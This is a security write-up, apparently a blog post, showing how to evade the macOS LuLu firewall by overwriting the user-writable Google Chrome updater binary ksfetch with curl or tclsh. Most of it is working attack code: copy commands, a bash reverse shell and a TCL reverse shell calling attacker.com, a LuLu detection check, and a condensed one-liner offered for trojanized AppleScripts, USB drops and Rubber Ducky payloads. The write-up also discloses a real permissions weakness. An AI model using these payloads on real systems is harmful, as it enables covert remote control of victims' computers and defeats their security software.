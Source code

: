 ```yaml
---
layout: post
title: "Bypass macOS Firewall App w/ Google Chrome Dependencies?"
categories: [publication,write-up]
modified: 2019-06-25
---
```


The bypass is made possible due to weak file and directory permissions assigned to some third-party applications installed outside the App Store. Let's have a look at file permissions for the Google Chrome browser, which was installed directly from Google via DMG installer.


```
$ ls -l /Applications/

total 0
drwxr-xr-x   3 root       admin    96B Jun 12 03:23 1Password 7.app
drwxr-xr-x@  3 root       wheel    96B Aug 18  2018 Calculator.app
drwxr-xr-x@  3 root       wheel    96B Aug 18  2018 FaceTime.app
drwxr-xr-x@  3 tokyoneon  admin    96B Jun  4 08:50 Google Chrome.app
drwxr-xr-x@  3 root       wheel    96B Aug 18  2018 Home.app
drwxr-xr-x@  3 root       wheel    96B Aug 18  2018 Image Capture.app
```

Notice the Google Chrome app is owned by the user and not "root" like other applications. And with another look at the `ksfetch` and `GoogleSoftwareUpdateAgent` rules in LuLu, we'll notice both of the binaries are in the `/Users/$USER/Library/` directory.

![](img/lulu01.jpg)


In addition to other files in the Chrome directory, these binaries modifiable by the user. To be clear, any files in `/Users/$USER/Library/` and `/Application/Google\ Chrome.app/` are fair game for an attacker and easily modified.

The below command will override `ksfetch` with `curl`, which is not whitelisted in the LuLu firewall.

```
$ cp /usr/bin/curl /Users/$USER/Library/Google/GoogleSoftwareUpdate/GoogleSoftwareUpdate.bundle/Contents/MacOS/ksfetch
```

Despite Curl not being whitelisted, an attacker can still access the internet this way.

```
$ /Users/$USER/Library/Google/GoogleSoftwareUpdate/GoogleSoftwareUpdate.bundle/Contents/MacOS/ksfetch "https://ifconfig.me/all"

ip_addr: 198.251.89.219
remote_host: unavaiable
user_agent: curl/7.54.0
port: 28596
language:
referer:
connection:
keep_alive:
method: GET
encoding:
mime: */*
charset:
via: 1.1 google
forwarded: 198.251.89.219, 216.239.36.21~
```

Ksfetch is used in this example, but `GoogleSoftwareUpdateAgent` and Google Chrome itself can be used to establish connections to a remote server. Overriding Chrome will, of course, break the application’s functionalities. But at that point, an attacker would have already exfiltrated sensitive information. With this knowledge, let's setup a reverse shell payload and remotely control the MacBook.

The following example utilizes `tclsh`, which will create an interactive shell the attacker can use to execute commands remotely. For good measure, the `tclsh` binaries and symlinks have been manually blocked in the firewall.

![](img/lulu02.jpg)

As a low privileged user, the `tclsh` binary is copied over `ksfetch`, which completely overrides the file and its functionalities.

```
$ cp /usr/bin/tclsh /Users/$USER/Library/Google/GoogleSoftwareUpdate/GoogleSoftwareUpdate.bundle/Contents/MacOS/ksfetch
```

The `tclsh` command is now invoked by directly calling the `ksfetch` binary. From this interactive terminal, commands are executed exactly as they would be with a Netcat or Bash shell.

```
$ /Users/$USER/Library/Google/GoogleSoftwareUpdate/GoogleSoftwareUpdate.bundle/Contents/MacOS/ksfetch

% ls -la /
total 36
drwxr-xr-x@   2 root  wheel     64 Jun 25 09:57 .PKInstallSandboxManager-SystemSoftware
drwx------    5 root  wheel    160 Jun  5 19:36 .Spotlight-V100
drwxrwxr-x+ 138 root  admin   4416 Jun 25 09:54 Applications
drwxr-xr-x+  70 root  wheel   2240 Jun  5 19:37 Library
drwxr-xr-x@   2 root  wheel     64 Oct  5  2018 Network
drwxr-xr-x@   5 root  wheel    160 Sep 21  2018 System
drwxr-xr-x    6 root  admin    192 May 10 17:34 Users
drwxr-xr-x@   5 root  wheel    160 Jun 25 18:51 Volumes
drwxr-xr-x@  37 root  wheel   1184 May 22 11:14 bin
drwxrwxr-t@   2 root  admin     64 Oct  5  2018 cores
dr-xr-xr-x    3 root  wheel   7834 Jun 25 09:50 dev
lrwxr-xr-x@   1 root  wheel     11 Oct  5  2018 etc -> private/etc
dr-xr-xr-x    2 root  wheel      1 Jun 25 16:57 home
dr-xr-xr-x    2 root  wheel      1 Jun 25 16:57 net
drwxr-xr-x    3 root  wheel     96 Oct  3  2018 opt
drwxr-xr-x    6 root  wheel    192 Jun  5 17:49 private
drwxr-xr-x@  64 root  wheel   2048 May 22 11:14 sbin
lrwxr-xr-x@   1 root  wheel     11 Oct  5  2018 tmp -> private/tmp
drwxr-xr-x@   9 root  wheel    288 Sep 21  2018 usr
lrwxr-xr-x@   1 root  wheel     11 Oct  5  2018 var -> private/var

% uname -a
Darwin User-MacBook.local 18.6.0 Darwin Kernel Version 18.6.0: Thu Apr 25 23:16:27 PDF 2019; root:xnu-4903.261.4~2/RELEASE_X86_64 x86_64
%
```


So, how would an attacker know if the operating system has LuLu installed to begin with? It's possible to enumerate installed security software by performing packet inspection and observing LuLu's auto-updates. However, we'll instead have the payload detect LuLu processes before executing any commands.

In the below example, background processes are examined with `ps`. Several active processes appear using the "LuLu" name.

```
$ ps auxwww | grep -i [l]ulu

root                94   0.3  0.7  4349052  28088   ??  Rs    1:33AM   0:18.59 /Library/Objective-See/LuLu/LuLu.bundle/Contents/MacOS/LuLu
tokyoneon          291   0.0  0.8  4924936  35092   ??  S     1:34AM   0:01.10 /Applications/LuLu.app/Contents/Library/LoginItems/LuLu Helper.app/Contents/MacOS/LuLu Helper
```

A simple Bash `if` statement, embedded in an AppleScript, could effectively detect the LuLu processes.

```bash
#!/bin/bash

if [[ ! "$(/bin/ps auxwww | /usr/bin/grep -i [l]ulu)" ]]; then
    echo "LuLu not found."
else
    echo "LuLu detected."
fi
```

A practical script that goes beyond detecting LuLu processes and automatically overrides Google Chrome binaries could appear as follows.

```bash
#!/bin/bash

# The `ps` command is used to view active processes and
# locate LuLu running in the background with `grep`.
if [[ ! "$(/bin/ps auxwww | /usr/bin/grep -i [l]ulu)" ]]; then

    # An arbitrary `echo` command. If LuLu is not found the
    # following commands will execute. An example Bash
    # reverse shell is included.
    echo "LuLu not found. Hack the planet!"
    /bin/bash -i >& /dev/tcp/attacker.com/443 0>&1
else
    # Arbitrary `echo` command with sad face.
    echo "Lulu detected :("

    # Copy the `tclsh` binary over `ksfetch`.
    /bin/cp /usr/bin/tclsh /Users/$USER/Library/Google/GoogleSoftwareUpdate/GoogleSoftwareUpdate.bundle/Contents/MacOS/ksfetch

    # TCL reverse shell, covered in the below article.
    # https://null-byte.com/tcl-0186330/
    echo 'set s [socket attacker.com 443];while 42 { puts -nonewline $s "hacker> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | /Users/$USER/Library/Google/GoogleSoftwareUpdate/GoogleSoftwareUpdate.bundle/Contents/MacOS/ksfetch &

    # Another `echo` command.
    echo "Bypass LuLu and hack the planet!"
fi
```

The above script is condensed into one-line to function nicely with trojanized AppleScripts, [Mousejack payloads](/0x03), [USB drops](/0x01), and USB Rubber Ducky payloads.

```bash
if [[ ! "$(/bin/ps auxwww | /usr/bin/grep -i [l]ulu)" ]]; then /bin/bash -i >& /dev/tcp/attacker.com/443 0>&1; else /bin/cp /usr/bin/tclsh /Users/$USER/Library/Google/GoogleSoftwareUpdate/GoogleSoftwareUpdate.bundle/Contents/MacOS/ksfetch && echo 'set s [socket attacker.com 443];while 42 { puts -nonewline $s "hacker> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | /Users/$USER/Library/Google/GoogleSoftwareUpdate/GoogleSoftwareUpdate.bundle/Contents/MacOS/ksfetch & fi
```

If Chrome isn't installed on the target system, a different dependency of an alternate browser is enumerable with some effort. Discovering the installed browser(s) could appear as shown below.

```bash
#!/bin/bash

if [[ ! -n "$(/bin/ps auxwww | /usr/bin/grep -i [l]ulu)" ]]; then
	echo "LuLu not found.";
else
	echo "LuLu detected.";
	if [[ -d "/Applications/Google Chrome.app/" ]]; then
		echo "Chrome browser detected. Overriding Ksfetch...";
	else
		if [[ -d "/Applications/Firefox.app/" ]]; then
			echo "Firefox detected. Overriding <unknown>...";
		else
			if [[ -d "/Applications/Opera.app/" ]]; then
				echo "Opera detected. Overriding <unknown>...";
			else
				echo "Uh-oh, we're out of browsers to exploit...";
			fi;
		fi;
	fi;
fi

```

---

{{ site.wht_credit }}
